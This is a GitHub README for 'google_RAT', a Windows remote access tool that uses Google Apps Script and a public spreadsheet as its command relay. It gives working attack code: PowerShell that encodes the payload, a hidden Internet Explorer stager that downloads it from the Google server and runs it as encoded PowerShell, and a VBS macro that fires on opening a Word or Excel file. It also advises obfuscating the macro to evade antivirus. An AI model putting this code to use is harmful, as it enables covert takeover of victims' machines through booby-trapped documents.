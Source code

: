 # google_RAT
A remote access tool for Windows systems using google apps script as the middle man

**NOTE:** Current limit to data upload and download is 8.5 MB. This is due to the [limits of google sheets](https://gsuitetips.com/tips/sheets/google-spreadsheet-limitations/).

# Setup

### Deploy Google Server and Spreadsheet Database
* Create a fake Google account
* Create a spreadsheet in the fake account's Google drive
* Make it public:
  * `File` > `Share...` > Give it a random name > `Get sharable link`
* Paste the link into the `SPREADSHEET_URL` variable in `server.js`
  * remove the `?usp=sharing` at the end of the URL. It should end in `/edit`
* Visit [Google Scripts](https://www.google.com/script/start/) and paste the code in `server.js`
* Publish the server:
  * Save and name the project something
  * `Publish` > `Deploy as web app`
    * Fill in the blank with something
    * Make sure the app is executed as `Me`
    * Make sure `Anyone, even anonymous` can access the app
  * `Review Permissions` > Select your fake account > `Advanced` > `Go to Untitled project (unsafe)` > enter 'Continue' > `Allow`
  * Copy the URL and paste it into `$SRV` of `script.ps1`

### Develop Powershell Payload

* Run the following powershell to compress `script.ps1`:
```
$s = gc <path to script.ps1>
$x = [convert]::tobase64string([system.text.encoding]::unicode.getbytes($s))
$sx = [system.text.encoding]::unicode.getstring([convert]::frombase64string($x))
$sx = $sx.replace('  ', '')
$sx = $sx.replace(' = ', '=')
$sx = $sx.replace(' + ', '+')
$sx = $sx.replace(' - ', '-')
$sx = $sx.replace(' | ', '|')
$sx = $sx.replace('if (', 'if(')
$sx = $sx.replace('while (', 'while(')
$sx = $sx.replace(', ', ',')
$sx = $sx.replace('; ', ';')
$sx = $sx.replace('} ', '}')
$sx = $sx.replace('{ ', '{')
$sx = $sx.replace(' {', '{')
$x = [convert]::tobase64string([system.text.encoding]::unicode.getbytes($sx))
write-host $x
```
* Take the base64 output and paste it into the `PAYLOAD` variable of `script.js` and republish the web server. Browse to the public google web server URL to see your base64 payload.

### Embed Payload Stager into a Microsoft Document
* Use the following powershell stager to run the payload (replace `<SRV>` with the URL of the google web server):
```
$i=new-object -com internetexplorer.application;
$i.visible=$false;
$i.silent=$true;
$i.navigate2('<SRV>',14,0,$null,$null);
while($i.busy -or ($i.readystate -ne 4)){sleep -seconds 1};
$p=$i.document.lastchild.innertext;
$i.quit();
powershell.exe -v 2 -noE -NonI -nOpR -eNc $p;
```
* Here is an example Microsoft VBS macro used to call the above powershell stager. Production code should use [Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation) on the `cmd` variable to help evade AV:
```
Private Sub run()
    Dim cmd As String
    cmd = "$i=new-object -com internetexplorer.application;$i.visible=$false;$i.silent=$true;$i.navigate2('<SRV>',14,0,$null,$null);while($i.busy -or ($i.readystate -ne 4)){sleep -seconds 1};$p=$i.document.lastchild.innertext;$i.quit();powershell.exe -v 2 -noE -NonI -nOpR -eNc $p;"
    Set sh = CreateObject("WScript.Shell")
    res = sh.run(cmd,0,True)
End Sub
'Word
Sub AutoOpen()
    run
End Sub
Sub AutoExec()
    run
End Sub
'Excel
Sub Auto_Open()
    run
End Sub
Sub Auto_Exec()
    run
End Sub
```

### Deploying Python Shell
**NOTE:** Script requires python 3
* Copy the public link to the google apps server and run the following command:
  * `python script.py <url to google apps server>`
* Fun test commands:
  * `(new-object -com SAPI.SpVoice).speak('self destruct in 9 8 7 6 5 4 3 2 1 boom')`
  * `$e=new-object -com internetexplorer.application; $e.visible=$true; $e.navigate('https://www.youtube.com/watch?v=dQw4w9WgXcQ');`
